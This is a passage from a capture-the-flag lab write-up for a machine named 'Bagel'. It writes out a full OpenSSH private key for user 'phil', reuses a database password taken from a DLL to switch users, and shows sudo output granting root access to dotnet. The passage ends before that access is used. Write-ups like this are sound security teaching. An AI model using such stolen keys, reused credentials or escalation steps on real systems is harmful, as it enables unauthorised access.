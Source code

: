 ```jsx
❯ echo '-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----' > id_rsa_phil
```

Now, we can successfully login to the machine as `phil` 

![](/img/Bagel_299b40e8bc344ae7904cea7a0b1ed5cf/Untitled_10.png)

Now using the `dev` user’s password we got from the `DB` class of the `bagel.dll` , we can escalate to the `developer` user

![](/img/Bagel_299b40e8bc344ae7904cea7a0b1ed5cf/Untitled_11.png)

Doing `sudo -l` , we can see that we are allowed to run `/usr/bin/donet` as user `root`

```jsx
[developer@bagel ~]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```
